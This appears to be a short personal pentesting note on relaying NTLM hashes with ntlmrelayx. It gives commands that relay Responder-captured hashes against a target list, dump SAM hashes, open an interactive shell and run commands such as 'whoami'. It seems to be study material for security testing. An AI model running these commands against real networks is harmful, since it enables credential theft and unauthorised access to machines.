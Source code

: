 #ntlmrelayx 

![[Pasted image 20240909113803.png]]

```
sudo ntlmrelayx.py -tf 'target file' -smb2support
```


Use to relay repsonders hashes instead of trying to offline crack them
- need an event to occur like responder does
- dumps hashes of the SAM
- used to log into the machine with hashes


![[Pasted image 20240909114019.png]]


Can create interactive #shell with the -i

```
sudo ntlmrelayx.py -tf 'target file' -smb2support -i
```

Can run commands to for quick testing

```
sudo ntlmrelayx.py -tf 'target file' -smb2support -c "whoami"
```